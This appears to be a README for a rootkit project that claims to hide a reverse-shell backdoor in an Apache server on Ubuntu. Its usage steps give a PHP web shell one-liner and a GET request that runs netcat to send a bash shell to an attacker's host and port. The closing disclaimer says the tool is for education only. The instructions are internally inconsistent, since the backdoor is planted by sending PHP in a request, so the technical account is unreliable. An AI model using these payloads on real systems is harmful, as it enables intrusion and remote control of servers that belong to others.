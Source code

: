 ﻿# AIpacheRootkit

This is a rootkit designed to hide a backdoor in an Apache service running on a Ubuntu 22 machine. The backdoor provides a reverse shell, allowing remote access to the compromised machine.

## Installation

To install the rootkit, follow these steps:

1. Clone the repository: `git clone https://github.com/user/repo.git`
2. `cd` into the root directory of the repository
3. Run the setup script: `sudo ./setup.sh`
4. Compile the rootkit: `make`

## Usage

Once the rootkit is installed, you can use it to obtain a reverse shell by following these steps:

1. Connect to the compromised machine over the network
2. Send a GET request to the Apache service with the following payload:
    `<?php echo shell_exec($_GET['cmd']); ?>`
3. Open a reverse shell by sending the following GET request:
    `http://<target-ip>/index.php?cmd=nc -e /bin/bash <attacker-ip> <attacker-port>`

Make sure to replace `<target-ip>`, `<attacker-ip>`, and `<attacker-port>` with the appropriate values for your network configuration.

## Disclaimer

This rootkit is intended for educational and testing purposes only. Use at your own risk. The creators of this rootkit are not responsible for any illegal activities carried out using this software.
